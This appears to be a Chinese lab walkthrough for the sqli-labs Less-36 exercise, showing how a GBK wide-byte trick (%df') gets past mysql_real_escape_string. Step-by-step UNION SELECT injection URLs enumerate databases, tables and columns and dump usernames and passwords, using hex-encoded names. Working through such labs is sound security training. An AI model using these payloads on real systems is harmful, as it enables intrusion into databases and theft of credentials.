

# Less-36
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
我们首先进行源代码审计，发现代码中使用了mysql_real_escape_string函数（参考：https://www.w3school.com.cn/php/func_mysql_real_escape_string.asp）
我们此处尝试直接使用原来的宽字节注入：
http://127.0.0.1/sqli/Less-36/?id=1%df’ # 发现有作用，可以进行注入
http://127.0.0.1/sqli/Less-36/?id=1111%df‘   union select 1,2,3 --+ 接下来就是正常的注入流程了。
完整演示：
1. http://127.0.0.1/sqli/Less-36/?id=1111%df‘   union select 1,2,group_concat(schema_name) from information_schema.schemata  --+ 1取出所有的库
2. http://127.0.0.1/sqli/Less-36/?id=1111%df‘   union select 1,2,group_concat(table_name) from  information_schema.tables where table_schema = 0x7365637572697479  --+ 取出所有的表
3. http://127.0.0.1/sqli/Less-36/?id=1111%df‘   union select 1,2,group_concat(column_name) from information_schema.columns where table_name = 0x7573657273  --+ 取出所有的字段
4. http://127.0.0.1/sqli/Less-36/?id=1111%df‘   union select 1,2,group_concat(concat_ws(0x7e,username,password)) from security.users  --+ 取出所有的字段的值
注意：为什么一直强调能够使用十六进制的就使用十六进制，因为本关中单引号全部会被转义